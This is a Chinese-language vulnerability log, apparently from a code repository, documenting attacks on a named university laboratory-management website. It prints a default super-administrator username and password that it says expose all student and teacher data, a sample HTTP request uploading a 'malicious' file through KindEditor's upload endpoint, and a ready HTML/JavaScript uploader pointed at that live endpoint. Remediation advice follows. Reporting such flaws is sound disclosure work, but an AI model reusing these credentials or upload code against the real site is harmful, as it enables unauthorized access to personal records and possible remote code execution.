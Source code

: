 ### 漏洞发现日志

---

**日期**: 2023年10月1日  
**时间**: 14:30  
**记录者**: 薛谔  
**目标网站**: 实验室综合管理与服务平台-登录界面

https://mdsysgl.mdit.edu.cn/sysgl/ 

---

#### 1. 漏洞发现概述
- **漏洞类型**: 
  - KindEditor 文件上传漏洞
  - 默认管理员账户漏洞
- **漏洞影响**: 
  - KindEditor漏洞允许上传指定类型的文件，可能导致远程代码执行和数据泄露。
  - 默认管理员账户漏洞允许攻击者使用默认凭据登录，可能导致未授权访问和数据泄露。
- **漏洞严重性**: 高（CVSS评分待定）

---

#### 2. 漏洞发现过程
- **测试环境**: 使用浏览器进行手动测试。
- **发现方法**: 
  - 通过访问 KindEditor 的文件上传功能进行测试。
  - 直接访问登录页面并尝试使用默认凭据进行登录。

---

#### 3. 漏洞详细信息

##### 3.1 KindEditor 文件上传漏洞
- **测试步骤**:
  - **14:35**: 访问登录页面 [实验室综合管理与服务平台-登录界面](https://mdsysgl.mdit.edu.cn/sysgl/)。
  - **14:36**: 登录成功后，访问文件上传功能测试地址 [KindEditor 示例](https://mdsysgl.mdit.edu.cn/sysgl/static/plugins/kindeditor-4.1.2/jsp/demo.jsp)。
  - **14:37**: 尝试上传指定类型的文件（如 `.doc`, `.docx`, `.xls`, `.xlsx`, `.ppt`, `.htm`, `.html`, `.txt`, `.zip`, `.rar`, `.gz`, `.bz`）。
  - **14:38**: 观察到系统未能正确验证文件内容，成功上传包含恶意代码的文件。

- **漏洞地址**: [https://mdsysgl.mdit.edu.cn/sysgl/index/login_toIndex](https://mdsysgl.mdit.edu.cn/sysgl/index/login_toIndex)
- **允许上传的文件类型**: 
  - doc
  - docx
  - xls
  - xlsx
  - ppt
  - htm
  - html
  - txt
  - zip
  - rar
  - gz
  - bz

- **示例请求**: 
  ```http
  POST /sysgl/static/plugins/kindeditor-4.1.2/jsp/upload_json.jsp?dir=file HTTP/1.1
  Host: mdsysgl.mdit.edu.cn
  Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
  
  ------WebKitFormBoundary
  Content-Disposition: form-data; name="imgFile"; filename="malicious.doc"
  Content-Type: application/vnd.openxmlformats-officedocument.wordprocessingml.document
  
  [恶意代码内容]
  ------WebKitFormBoundary--
  ```

##### 3.2 默认管理员账户漏洞
- **测试步骤**:
  - **14:40**: 访问登录页面 [实验室综合管理与服务平台-登录界面](https://mdsysgl.mdit.edu.cn/sysgl/)。
  - **14:41**: 输入默认管理员账户和密码：
    - **账号**: `000000`
    - **密码**: `Admin@123`
  - **14:42**: 成功登录，发现该账户为超级管理员，能够查看所有学生和老师的信息，并修改成员密码。

- **漏洞地址**: [https://mdsysgl.mdit.edu.cn/sysgl/](https://mdsysgl.mdit.edu.cn/sysgl/)
- **影响范围**: 所有用户信息，包括学生和老师的个人信息。

---

#### 4. 影响评估
- **受影响的用户**: 所有注册用户和系统管理员。
- **潜在损失**: 数据泄露、未授权访问和可能的法律责任。

---

#### 5. 修复建议
- **短期修复**: 
  - 对于KindEditor漏洞，立即对文件上传功能进行安全性检查，限制可上传文件类型，并对文件内容进行验证。
  - 对于默认管理员账户漏洞，立即禁用默认管理员账户，并强制要求所有用户更改密码。
- **长期修复**: 
  - 实施文件上传的严格验证和过滤机制，确保只允许安全的文件类型，并对文件内容进行扫描。
  - 实施强密码策略，确保所有账户使用唯一且复杂的密码。
- **安全最佳实践**: 定期进行安全审计，检查默认凭据的使用情况，并及时更新系统。

---

### 上传代码示例

以下是用于上传文件的 HTML 和 JavaScript 代码示例：

```html
html<html>
<head>
    <title>Uploader</title>
    <script src="https://mdsysgl.mdit.edu.cn/sysgl/static/plugins/kindeditor-4.1.2/kindeditor.js"></script>
    <script>
        KindEditor.ready(function (K) {
            var uploadbutton = K.uploadbutton({
                button: K('#uploadButton')[0],
                fieldName: 'imgFile',
                url: 'https://mdsysgl.mdit.edu.cn/sysgl/static/plugins/kindeditor-4.1.2/jsp/upload_json.jsp?dir=file',
                afterUpload: function (data) {
                    if (data.error === 0) {
                        var url = K.formatUrl(data.url, 'absolute');
                        K('#url').val(url);
                    }
                },
            });

            uploadbutton.fileBox.change(function (e) {
                uploadbutton.submit();
            });
        });
    </script>
</head>
<body>
<div class="upload">
    <input class="ke-input-text" type="text" id="url" value="" readonly="readonly"/>
    <input type="button" id="uploadButton" value="Upload"/>
</div>
</body>
</html>
```